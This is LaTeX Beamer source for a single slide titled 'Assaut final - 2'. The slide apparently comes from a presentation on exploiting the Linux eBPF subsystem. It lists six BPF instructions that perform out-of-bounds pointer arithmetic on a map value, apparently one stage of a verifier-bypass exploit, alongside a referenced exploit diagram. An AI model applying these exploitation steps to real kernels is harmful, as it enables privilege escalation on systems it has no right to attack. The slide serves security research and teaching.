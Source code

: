 \documentclass{beamer}
\begin{document}
\begin{frame}
    \frametitle{Assaut final - 2}
    \begin{columns}
        \begin{column}{0.5\textwidth}
        \scriptsize{
            \begin{itemize}
                \item[] BPF\_LD\_IMM64\_RAW(BPF\_REG\_4, BPF\_PSEUDO\_MAP\_VALUE, corrupt)
                \item[] BPF\_ALU64\_IMM(BPF\_ADD, BPF\_REG\_4, 3*64KB/2)
                \item[] BPF\_ALU64\_IMM(BPF\_SUB, BPF\_REG\_4, 3*64KB/4)
                \item[] BPF\_LD\_IMM64\_RAW(BPF\_REG\_3, BPF\_PSEUDO\_MAP\_VALUE, control)
                \item[] BPF\_LDX\_MEM(BPF\_H, BPF\_REG\_7, BPF\_REG\_3, 0)
                \item[] BPF\_ALU64\_REG(BPF\_ADD, BPF\_REG\_4, BPF\_REG\_7)
            \end{itemize}
            }
        \end{column}
        \begin{column}{0.5\textwidth}
            \begin{center}
                \includegraphics[scale=0.2]{exploit/etape2.png}

\end{center}
\end{column}
\end{columns}
\end{frame}
\end{document}
